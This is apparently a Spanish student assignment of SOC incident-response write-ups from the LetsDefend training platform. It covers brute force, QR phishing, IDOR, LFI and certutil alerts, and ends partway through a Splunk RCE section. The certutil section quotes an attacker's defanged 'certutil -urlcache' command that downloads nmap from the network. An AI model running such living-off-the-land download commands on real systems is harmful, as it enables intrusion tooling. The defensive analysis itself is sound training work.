


# 4.02 - Respuesta y seguimiento de incidentes (RA4.def)

La actividad consiste en la gestión y resolución de incidentes de ciberseguridad utilizando la plataforma Let's Defend. Se enfoca en aplicar las habilidades y conocimientos adquiridos en la detección, análisis, y respuesta a incidentes, mediante el uso de playbooks específicos.

# SOC176 - RDP Brute Force Detected
## Taxonomía

1. **Tipo de Incidente:**
    - Intento de intrusión
2. **Método de Ataque:**
    - Fuerza Bruta contra el protocolo RDP.
3. **Descripción del Incidente:**
    - Intento repetido y automatizado de iniciar sesión en un servidor o sistema a través del protocolo RDP (Escritorio Remoto), utilizando combinaciones de nombres de usuario y contraseñas, con el objetivo de obtener acceso no autorizado al sistema.
4. **Etapas del Incidente:**
    - **Reconocimiento:**
        - El atacante identifica un servicio RDP accesible públicamente.
    - **Ataque:**
        - El atacante utiliza herramientas automatizadas para intentar iniciar sesión en el servicio RDP con nombres de usuario y contraseñas comunes o generadas aleatoriamente.
    - **Detección:**
        - El sistema de detección de intrusiones o el registro de eventos del servidor detecta un patrón de intentos de inicio de sesión fallidos, indicando un posible ataque de fuerza bruta.
    - **Respuesta:**
        - Los equipos de seguridad toman medidas para bloquear las direcciones IP de los atacantes, fortalecer la seguridad del sistema y revisar los registros de actividad en busca de actividad maliciosa adicional.
5. **Impacto Potencial:**
    - Compromiso de la integridad, confidencialidad y disponibilidad de los datos y servicios alojados en el sistema afectado.
    - Posible interrupción del servicio debido al bloqueo de cuentas de usuario por medidas de seguridad automatizadas.
6. **Acciones de Respuesta y Mitigación:**
    - Bloqueo de direcciones IP asociadas con el ataque.
    - Implementación de políticas de bloqueo de cuentas después de varios intentos fallidos de inicio de sesión.
    - Monitoreo continuo de la actividad del sistema para detectar cualquier otro intento de acceso no autorizado.
    - Revisión y mejora de las políticas de seguridad, como el uso de contraseñas seguras y la autenticación de múltiples factores.
## Criticidad 

La criticidad de este tipo de incidente varía en dos vertientes:

El atacante obtiene las credenciales:

Si un atacante consigue efectuar al ataque de fuerza bruta y obtener credenciales tendría acceso directo al los dispositivos a través del protocolo RDP, comprometiendo la confidencialidad, integridad e incluso la disponibilidad si así quisiera, teniendo una criticidad muy alta.

El atacante no obtiene las credenciales:

En caso de ser detectado durante el ataque y no resultar exitoso, se podría producir un bloqueo de las cuentas de usuarios sujetas al ataque, afectando a la disponibilidad de las mismas, siendo más importante el bloqueo de cuentas administrativas, teniendo una criticidad media o alta en función de cuanto se tarde en recuperar las cuentas.
## Descripción del incidente 

En este caso se han detectado varios intentos de inicio de sesión a través del protocolo RDP provenientes de la dirección 218.92.0.56 a la dirección 172.16.17.148. Siendo la IP de origen una dirección externa, que si buscamos en apivoid encontraremos que es un IP maliciosa proveniente de China.


Sabemos que es una ip externa, cuando buscamos en los logs de conexiones del dispositivo vemos varias conexiones con la ip maliciosa:


## Acciones tomadas

En este caso el atacante solo ha intentado vulnerar un solo dispositivo, para determinar si el ataque fue exitoso vamos a los logs del sistema y buscamos por el ID correspondiente y encontramos que efectivamente, han accedido al dispositivo:


Como es obvio decidimos aislar el dispositivo.

Con todo esto y añadiendo las direcciones IP como artefactos cerramos el caso y confirmamos que hemos tomado una buena decisión.


## Acción específica

No se ha tomado ninguna acción excepto aislar el dispositivo.
## Lecciones aprendidas y mejoras

El incidente se ha llegado a manifestar debido al uso de credenciales flojas o comprometidas previamente, en lo que se refiere al tiempo de respuesta, deberíamos implantar soluciones automáticas para este tipo de incidentes como el uso de firewalls de nueva generación como PFSense.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 

En este caso las evidencias se reducen a los logs de incio de sesión y las dos IP, claramente se ve como se ha realizado el ataque hasta tener éxito y después se han ejecutado algunos comandos en la máquina vulnerada.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Simplemente el aislamiento del dispositivo.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

En este caso con una buena política de contraseñas no debería de pasar esto nunca más, aunque recomiendo el cambio general de contraseñas de todos los usuarios, y implementar soluciones IPD/IDS con capacidad de responder automáticamnete a este tipo de ataques.

# # SOC251 — Quishing Detected (QR Code Phishing)
## Taxonomía

1. **Tipo de Incidente:**
    - Fraude(Phising)
1. **Método de Ataque:**
    - Phishing a través de Códigos QR.
3. **Descripción del Incidente:**
    - Los atacantes distribuyen códigos QR maliciosos que, cuando son escaneados por dispositivos móviles u otros dispositivos compatibles, redirigen a los usuarios a sitios web falsos o maliciosos diseñados para robar información personal, credenciales de inicio de sesión u otros datos sensibles.
4. **Etapas del Incidente:**
    - **Preparación:**
        - Los atacantes diseñan y distribuyen códigos QR maliciosos, generalmente mediante correo electrónico, mensajes de texto, pegatinas físicas o materiales de marketing falsificados.
    - **Engaño:**
        - Los usuarios reciben el código QR y son persuadidos para escanearlo, a menudo mediante técnicas de ingeniería social que despiertan curiosidad o generan urgencia.
    - **Redirección:**
        - El escaneo del código QR redirige a los usuarios a una página web falsa que imita a un sitio legítimo, como un banco, una plataforma de comercio electrónico o una red social.
    - **Explotación:**
        - En la página web falsa, los usuarios son engañados para que ingresen información confidencial, como nombres de usuario, contraseñas, números de tarjetas de crédito o detalles de cuentas bancarias.
    - **Detección:**
        - Los sistemas de seguridad, herramientas de filtrado web o usuarios vigilantes detectan el intento de phishing y alertan sobre la actividad sospechosa.
5. **Impacto Potencial:**
    - Pérdida de datos personales o financieros.
    - Compromiso de cuentas en línea.
    - Riesgo de robo de identidad.
    - Daño a la reputación de la marca o la organización afectada.
    - Posibles repercusiones legales y regulatorias.
6. **Acciones de Respuesta y Mitigación:**
    - Bloqueo de los códigos QR maliciosos en las plataformas de escaneo.
    - Notificación a los usuarios afectados y educación sobre cómo identificar y evitar el phishing.
    - Investigación de la fuente del ataque y seguimiento de posibles compromisos adicionales.
    - Monitoreo continuo de la actividad de phishing y actualización de las medidas de seguridad para prevenir futuros incidentes.
## Criticidad 

En este caso la criticidad de que un usuario caiga en este tipo de ataque puede depender del rol que cumple el usuario en la empresa, los usuarios proporcionan información confidencial al sitio web falso al que son redirigidos, la criticidad del incidente aumenta significativamente en función de como de importante son estos datos. Esto podría resultar en el robo de datos personales o financieros, comprometiendo la seguridad y la privacidad de los usuarios afectados. Por lo tanto es de criticidad alta.

## Descripción del incidente 

Desde el correo security@microsecmfa.com se ha enviado un mail a Claire@letsdefend.io usando el servidor SMTP 158.69.201.47 con el asunto "New Year's Mandatory Security Update: Implementing Multi-Factor Authentication (MFA)".

Comprobamos la fiabilidad de la dirección IP:


Se encuentran algunos reportes pero nada excesivo, encontramos que solo se ha enviado un mail desde la dirección.


Vemos de que trata el mail y procedemos a analizar el QR.



Parseamos el contenido del QR y obtenemos lo siguiente, como es obvio, la redirección no lleva donde el correo afirma que debería de llevar.


Buscamos la URL en virustotal y obtenemos lo siguiente:


Se detecta como un Phising, añado los siguientes artefactos:


## Acciones tomadas

En este caso tenemos evidencia más que de sobra de que es un mail de Phising por lo que vamos a borrar el correo:


Vamos a mirar la actividad del dispositivo de Claire para ver si ha resultado el ataque o no y no encontramos nada, pero es posible que el QR se haya escaneado con un móvil, por lo que vamos a contener el dispositivo por si acaso hasta aclaración del incidente.


Se confirma que hemos actuado bien:


## Acción específica

En este caso la acción especifica que hemos llevado a cabo es el borrado del mail con el QR.

## Lecciones aprendidas y mejoras

## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 

Lo primero es comprobar la fiabilidad del emisor del mail, inspeccionar el contenido del QR y verificar su fiabilidad, tras esto buscan un rastro sobre el ataque para saber si se accedió a la URL malciosa, entre las evidencias tenemos el QR y su URL, logs de búsquedas y la IP y dirección de correo del emisor.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Primero el borrado del correo y al no saber si se ha efectuado el ataque ya que no tenemos registros del teléfono se ha bloqueado el dispositivo.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
Existen sistemas gestores de contenido que son capaces de detectar este tipo de phising de forma automática, por ejemplo [SpamTitan Email Security](https://link.expertinsights.com/top-11-email-gateways-titan-title) que permitiría crear filtros sobre el contenido que llega a través de correo.

#  Possible IDOR Attack Detected Walkthrough
## Taxonomía

1. **Categoría
    - Seguridad de Aplicaciones Web.
2. **Tipo de Incidente:**
    - Compromiso de la información, acceso no autorizado a información
3. **Método de Ataque:**
    - Ataque de IDOR.
4. **Descripción del Incidente:**
    - Un posible ataque de IDOR implica intentos de acceso no autorizado a recursos protegidos mediante la manipulación directa de referencias de objetos, como identificadores o rutas de acceso, en las solicitudes HTTP. Estos ataques pueden permitir a un usuario acceder a recursos que no le corresponden, como datos de otros usuarios o funcionalidades restringidas.
5. **Etapas del Incidente:**
    - **Reconocimiento:**
        - Se examina la aplicación web en busca de posibles vulnerabilidades de IDOR, identificando objetos y recursos protegidos que podrían ser accesibles mediante manipulación de referencias.
    - **Ataque:**
        - Intenta manipular las referencias de objetos en las solicitudes HTTP para acceder a recursos protegidos
    - **Detección:**
        - Los controles de seguridad o los sistemas de detección de intrusiones identifican patrones de comportamiento inusual, como intentos de acceso a recursos no autorizados o acceso a objetos con identificadores no válidos.
    - **Investigación y Confirmación:**
        - Se lleva a cabo una investigación para confirmar si los intentos de acceso no autorizado son legítimos o si representan un intento de ataque de IDOR. Esto puede implicar el análisis de registros, la revisión de solicitudes y respuestas HTTP, y la reproducción de los pasos del ataque.
6. **Impacto Potencial:**
    - Acceso no autorizado a datos confidenciales o sensibles.
    - Divulgación de información personal o financiera de los usuarios.
    - Posible alteración o eliminación de datos.
    - Riesgo de compromiso de la integridad y confidencialidad de la aplicación y sus usuarios.
7. **Acciones de Respuesta y Mitigación:**
    - Identificación y corrección de las vulnerabilidades de IDOR en la aplicación web.
    - Restricción del acceso a recursos protegidos utilizando autenticación, autorización y control de acceso adecuados.
    - Notificación a los usuarios afectados y toma de medidas para mitigar el impacto del incidente, como la restitución de datos comprometidos.
    - Monitorización continua de la aplicación web para detectar y prevenir futuros ataques de IDOR.

## Criticidad 

La criticidad de este incidente depende mucho de a qué información obtiene acceso el atacante, entre los factores tenemos:

1. **Alcance del Acceso No Autorizado:**
- Si un atacante logra acceder a datos altamente sensibles o realizar acciones críticas en la aplicación, como modificar o eliminar información importante, el impacto puede ser significativo.
2. **Sensibilidad de los Datos Comprometidos:**
- Comprometer datos personales, financieros o médicos, el riesgo para la privacidad y la seguridad de los usuarios afectados es de una criticidad mayor que obtener información más liviana.

## Descripción del incidente 

Sobre el incidente obtenemos la siguiente información:


Como vemos se han realizado varias peticiones a una URL desde la IP 134.209.118.137. Lo primero que vamos a hacer es mirar los logs e informarnos sobre la alerta. Vemos 5 peticiones iguales realizadas en desde las 10:45 a las 10:48.


Estas peticiones son de tipo POST, y vemos que el creador de las mismas está probando diferentes parámetros en los id de usuario:


Esto ya empieza a levantar alertas, por lo que voy a revisar la fiabilidad de la IP de origen y no aparenta ser maliciosa en virus total pero en apivoid hay dos reportes.


El tráfico definitivamente es malicioso, y corresponde con un ataque de tipo IDOR. Tras buscar si ha sido una acción planeada encontramos que no existen emails o avisos sobre este tipo de actividad y la IP no corresponde a ninguna compañía. Los códigos de respuesta de nuestra aplicación han sido 200, por lo que podemos intuir que ha sido exitoso el ataque.


## Acciones tomadas

Tras la confirmación del ataque vamos a contener el equipo:


Añadimos los siguientes artefactos:


En este caso vamos a escalar a nivel 2 ya que el ataque ha sido exitoso:


Se confirma que hemos tomado buenas decisiones:


## Acción específica

En este caso entre las acciones especificas tenemos buscar entre los emails para saber si se trataba de algún tipo de prueba de la aplicación.

## Lecciones aprendidas y mejoras

## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 

En este caso se han analizado las peticiones para llegar a la conclusión de si ha sido un ataque o no, tras esto se confirma buscando si era algún tipo de prueba, tras esto se escala a nivel 2. Entre las evidencia tenemos los logs HTTP.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
La confirmación de si es una prueba o no buscando entre los mails.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

En este caso se recomienda el uso de herramientas centradas en el desarrollo de software de forma segura como SonarQube y el testing de las aplicaciones antes de ponerlas en producción como OWASP ZAP, también considero que para evitar estos problemas deberíamos de desplegar un WAF.

# SOC163 - Suspicious Certutil.exe Usage
## Taxonomía

1. **Categoría del Incidente:**
    - Seguridad de la Información / Seguridad Operativa.
2. **Tipo de Incidente:**
    - Uso Sospechoso de Herramienta del Sistema (Certutil.exe).
3. **Descripción del Incidente:**
    - La herramienta del sistema Certutil.exe ha sido utilizada de manera sospechosa en el entorno de la red o del sistema. Certutil.exe es una utilidad de línea de comandos en sistemas Windows que se utiliza típicamente para administrar certificados y servicios de directorio, pero también puede ser abusada por actores maliciosos para llevar a cabo actividades no autorizadas, como descargar o ejecutar archivos maliciosos, codificar o decodificar archivos, o realizar otras acciones potencialmente dañinas.
4. **Etapas del Incidente:**
    - **Detección de Actividad Sospechosa:**
        - La actividad sospechosa relacionada con Certutil.exe es detectada por sistemas de detección de intrusiones, herramientas de análisis de comportamiento, registros de eventos o sistemas de monitoreo de red.
    - **Análisis de Actividad:**
        - Se lleva a cabo un análisis detallado de la actividad sospechosa de Certutil.exe para determinar la naturaleza y el propósito de la actividad, así como su alcance y posibles impactos.
    - **Identificación de Causas Raíz:**
        - Se investiga la causa raíz de la actividad sospechosa, que podría incluir la explotación de vulnerabilidades, actividades de malware, o comportamiento anómalo por parte de usuarios legítimos o credenciales comprometidas.
    - **Contención y Respuesta:**
        - Se toman medidas inmediatas para contener la actividad sospechosa y mitigar cualquier posible impacto negativo en la seguridad de la red o del sistema. Esto puede incluir el bloqueo de tráfico sospechoso, la eliminación de archivos maliciosos, o la desconexión de sistemas comprometidos de la red.
5. **Impacto Potencial:**
    - Compromiso de la integridad, confidencialidad o disponibilidad de datos y recursos del sistema.
    - Riesgo de infección por malware o propagación de amenazas.
    - Posible robo de información confidencial.
    - Daño a la reputación de la organización.
6. **Acciones de Respuesta y Mitigación:**
    - Implementación de medidas de contención para detener la actividad sospechosa y prevenir daños adicionales.
    - Eliminación de archivos o procesos maliciosos relacionados con la actividad sospechosa.

## Criticidad 

En este caso la criticidad depende de para qué se usa la herramienta, en el caso de utilizarla para descargar y ejecutar archivos maliciosos, el riesgo de compromiso del sistema es mayor en comparación con usos legítimos, como la administración de certificados.
## Descripción del incidente 

El incidente ocurre cuando se detecta un uso raro de la herramienta certutil.exe, siendo el comando el siguiente:

```perl
certutil.exe -urlcache -split -f hXXps://nmap[.]org/dist/nmap-7.92-win32.zip nmap.zip
```

Esto ha sucedido en la IP 172.16.17.22 con nombre de host "EricProd".

En este caso vemos que el comando está descargando el binario de nmap en el sistema, una herramienta usada para escanear dispositivos y redes, algo muy útil por un atacante. Si miramos los comandos ejecutados en el host vemos que ha sido ejecutado:


Como vemos no solo se ha descargado un binario de nmap y ha realizado un escaneo, si no que también ha descargado un consejero de exploits para windows.


## Acciones tomadas

Observamos que hay actividad más que suficiente para llegar  ala conclusión de que el sistema ha sido comprometido por lo que procedemos a contener el incidente aislando el dispositivo.


Estos son los artefactos identificados:


Confirmamos nuestras decisiones:


## Acción específica

En este caso se ha tenido que revisar el historial de comandos del sistema, a parte de eso solo se ha tenido que bloquear el dispositivo.
## Lecciones aprendidas y mejoras

En este caso el sistema ya estaba comprometido y ha sido un usuario el que ha ejecutado todos estos comandos, entre mejoras posibles se debería de limitar que usuarios pueden ejecutar binarios haciendo uso de funcionalidades tales como grupos y o permisos, además se podrían bloquear URL relacionadas con actividades maliciosas que no vayan a ser utilizadas en la empresa, dificultando la descarga de herramientas.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
Al detectar el uso del comando sospechoso se procede a ver el historial de comandos ejecutado apra determinar si el sistema ha sido comprometido, tras esto se procede al bloqueo, entre las principales evidencias tenemos el log de comandos y log de descargas del sistema.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
En este caso no ha sido necesario ningua acción en especial, solo visualizar logs de comandos.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
La restricción de URLs que apunten a contenido que pueda ser dañino para los sistemas y el uso de permisos y grupos para aislar a los usaurios de la ejecución de binarios.
# SOC170 - Passwd Found in Requested URL - Possible LFI Attack
## Taxonomía

1. **Categoría del Incidente:**
    - Seguridad de Aplicaciones Web.
    - Intento de intrusión y/o obtención de información 
1. **Tipo de Incidente:**
    - Posible Ataque de LFI (Inclusión de Archivos Locales).
2. **Descripción del Incidente:**
    - Durante el monitoreo de la actividad en la aplicación web, se ha detectado una referencia al archivo ```/etc/passwd``` en la URL solicitada por un usuario. Esta práctica es inusual y puede ser indicativa de un intento de ataque de LFI, donde un atacante intenta explotar una vulnerabilidad en la aplicación web para incluir archivos locales del servidor en las respuestas del sitio web.
3. **Etapas del Incidente:**
    - **Detección de Contraseña en la URL:**
        - La petición hacia el fichero de sistema es detectada y crea una alerta.
    - **Análisis de la Solicitud:**
        - Se lleva a cabo un análisis detallado de la solicitud para determinar el propósito y la intención del usuario al incluir la contraseña en la URL, así como para identificar cualquier otra actividad sospechosa asociada con la solicitud.
    - **Identificación de Posible Ataque de LFI:**
        - Se investiga si la petición en la URL podría ser parte de un intento de ataque de LFI, donde el atacante busca acceder a archivos locales sensibles o ejecutar código malicioso en el servidor web mediante la manipulación de parámetros de la URL.
    - **Confirmación del Ataque:**
        - Se lleva a cabo una evaluación para confirmar si la actividad identificada es indicativa de un ataque de LFI, lo que puede implicar la revisión de registros adicionales, análisis forense de sistemas, y pruebas de penetración.
4. **Impacto Potencial:**
    - Compromiso de la integridad y confidencialidad de archivos y datos sensibles almacenados en el servidor web.
    - Posible ejecución de código malicioso en el servidor, lo que puede resultar en la pérdida de control sobre el sistema y el robo de datos sensibles.
    - Riesgo de interrupción del servicio si el servidor web se ve comprometido o si los archivos críticos se corrompen o eliminan.
5. **Acciones de Respuesta y Mitigación:**
    - Bloqueo de la solicitud y del usuario involucrado para evitar una posible explotación adicional de la vulnerabilidad.
    - Corrección de la vulnerabilidad de LFI en la aplicación web mediante actualizaciones de seguridad y parches.
## Criticidad 

Este tipo de vulnerabilidades permiten a un atacante leer archivos de sistema e incluso acceder al mismo usando un envenenamiento de logs si las circunstancias son adecuadas teniendo una criticidad bastante alta ya que se podría llegar a tener control total sobre el sistema, afectando altamente a la disponibilidad, integridad o confidencialidad de la información.
## Descripción del incidente 

Se ha encontrado una petición sospechosa que apunta al archivo de sistema donde se guarda información de los usuarios, proviene de la IP 106.55.45.162(fuera) hacia la IP 172.16.17.13. La regla salta porque ha encontrado la cadena "passwd" en la petición GET.

Primero confirmamos si la IP es maliciosa:


3 detecciones de 80 no es suficiente para determinar que la IP sea sospechosa pero aumenta el  nivel de alerta, ahora procedemos a consultar logs que provienen de la IP 106.55.45.162, solo encontramos la petición que ha hecho saltado la alarma,  en este caso vemos que la respuesta del servidor fue 500, un indicativo de que el ataque no resultó exitoso y de que solo se intentó en el servidor 172.16.17.13.
## Acciones tomadas

Con la información anterior concluimos que se ha intentando realizar un ataque pero no ha tenido ningún efecto, por lo que todo ha funcionado correctamente,  tras asegurarnos de que no es un test, recolecto los siguiente artefactos:


Y puesto que el ataque no ha surtido ningún efecto no hay que escalar a Tier 2.


Se confirma que hemos tomado la decisión correcta.


## Acción específica

En este caso no han sido necesarias acciones especificas, este incidente se resuelve mirando logs y puesto que no se ha vulnerado ningún servicio, dispositivo o información, no se han tomado medidas.
## Lecciones aprendidas y mejoras

En este incidente yo recomendaría reportar la IP como maliciosa y bloquear el tráfico proveniente de ella.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
Las evidencias clave han sido los logs del servidor donde hemos podido identificar que tipo de ataque es, de donde proviene y si ha funcionado, al ver que no ha funcionado se ha cerrado elc aso inmediatamente.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.
- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Ninguna ya que no ha surtido efecto el ataque.
- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
El bloqueo de la dirección IP.
# SOC210 - Possible Brute Force Detected on VPN
## Taxonomía

1. **Tipo de Incidente:**
    - Intento de intrusión
2. **Método de Ataque:**
    - Fuerza Bruta contra nuestra VPN.
3. **Descripción del Incidente:**
    - Intento repetido y automatizado de iniciar sesión en nuestra red VPN.
4. **Etapas del Incidente:**
    - **Reconocimiento:**
        - El atacante identifica un servicio VPN.
    - **Ataque:**
        - El atacante utiliza herramientas automatizadas para intentar iniciar sesión en el servicio.
    - **Detección:**
        - El sistema de detección de intrusiones o el registro de eventos del servidor detecta un patrón de intentos de inicio de sesión fallidos, indicando un posible ataque de fuerza bruta.
    - **Respuesta:**
        - Los equipos de seguridad toman medidas para bloquear las direcciones IP de los atacantes, fortalecer la seguridad del sistema y revisar los registros de actividad en busca de actividad maliciosa adicional.
5. **Impacto Potencial:**
    - Compromiso de la integridad, confidencialidad y disponibilidad de los datos y servicios alojados en el sistema afectado.
    - Posible interrupción del servicio debido al bloqueo de cuentas de usuario por medidas de seguridad automatizadas.
6. **Acciones de Respuesta y Mitigación:**
    - Bloqueo de direcciones IP asociadas con el ataque.
    - Implementación de políticas de bloqueo de cuentas después de varios intentos fallidos de inicio de sesión.
    - Monitoreo continuo de la actividad del sistema para detectar cualquier otro intento de acceso no autorizado.
    - Revisión y mejora de las políticas de seguridad, como el uso de contraseñas seguras y la autenticación de múltiples factores.
## Criticidad 

La criticidad de este tipo de incidente varía en dos vertientes:

El atacante obtiene las credenciales:

Si un atacante consigue efectuar al ataque de fuerza bruta y obtener credenciales tendría acceso directo a la red empresarial interna usando nuestra VPN, comprometiendo la confidencialidad, integridad e incluso la disponibilidad si así quisiera, teniendo una criticidad muy alta.

El atacante no obtiene las credenciales:

En caso de ser detectado durante el ataque y no resultar exitoso, se podría producir un bloqueo de las cuentas de usuarios de la VPN sujetas al ataque, afectando a la disponibilidad de las mismas, siendo más importante el bloqueo de cuentas administrativas, teniendo una criticidad media o alta en función de cuanto se tarde en recuperar las cuentas. 
## Descripción del incidente 

Desde la IP 37.19.221.229(externa) se han registrado inicios de sesión contra la IP 33.33.33.33, con el usuario mane@letsdefend.io, un login exitoso se detecta tras varios erróneos lo cual activa la alerta.

Lo primero que vamos a hacer es ver la confianza en la dirección IP.


No parece altamente maliciosa, pero tiene 3 detecciones de 80. En los logs se ven intentos de inicio de sesión con usuarios que ni existen hasta que hay uno exitoso:



Ahora que sabemos que el usuario es mane vamos a centrarnos en los logs de su dispositivo y no encontramos nada más.
## Acciones tomadas

Con todo lo anterior llegamos a la conclusión de que la cuenta ha sido comprometida y por lo tanto lo siguiente es proceder al aislamiento de su dispositivo:

Siendo estos los artefacto compormetidos:


Se confirman nuestras decisiones:


## Acción específica

Se ha procedido al bloqueo del dispositivo tras descubrir a que usuario han conseguido adivinarle las credenciales.
## Lecciones aprendidas y mejoras

El servicio VPN necesita de un máximo de intento de inicio de sesión y el uso de contraseñas más seguras.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
Se han analizado los logs y por la naturaleza de la proveniência de los intentos de inicio de sesión y el número de intentos se determina que ha sido un ataque. Las evidencias han sido los logs de incio de sesión.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Bloquear el dispositivo del usuario afectado y revisar logs de acceso a la VPN.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
El servicio VPN necesita de un máximo de intento de inicio de sesión y el uso de contraseñas más seguras.

# SOC239 — Remote Code Execution Detected in Splunk Enterprise
## Taxonomía
1. **Categoría del Incidente:**
    - Seguridad de la Información / Seguridad Operativa.
2. **Tipo de Incidente:**
    - Vulnerabilidad de servicio, Ejecución Remota de Código (RCE) en Splunk Enterprise.
3. **Descripción del Incidente:**
    - Se ha detectado actividad sospechosa en el entorno de Splunk Enterprise que sugiere un intento de ejecución remota de código, donde un atacante intenta ejecutar comandos arbitrarios en los sistemas afectados de forma remota y no autorizada.
4. **Etapas del Incidente:**
    - **Detección de Actividad Anómala:**
        - Se detecta actividad inusual o no autorizada en los registros de Splunk Enterprise, como comandos o acciones que podrían indicar intentos de ejecución remota de código.
    - **Análisis de la Actividad Sospechosa:**
        - Se lleva a cabo un análisis detallado de la actividad sospechosa para determinar la naturaleza y el alcance del intento de ejecución remota de código, así como para identificar posibles puntos de entrada o vectores de ataque utilizados por el intruso.
    - **Investigación de Causas Raíz:**
        - Se investigan las posibles causas de la actividad sospechosa, que pueden incluir vulnerabilidades en Splunk Enterprise, configuraciones incorrectas o compromisos de seguridad en otros sistemas interconectados.
    - **Contención y Neutralización:**
        - Se toman medidas inmediatas para contener la actividad sospechosa y neutralizar cualquier amenaza potencialmente maliciosa, como bloquear direcciones IP sospechosas, deshabilitar cuentas de usuario comprometidas o aplicar parches de seguridad en Splunk Enterprise.
5. **Impacto Potencial:**
    - Compromiso de la seguridad y la integridad de los datos almacenados en Splunk Enterprise.
    - Riesgo de acceso no autorizado a sistemas interconectados o a recursos críticos de la red.
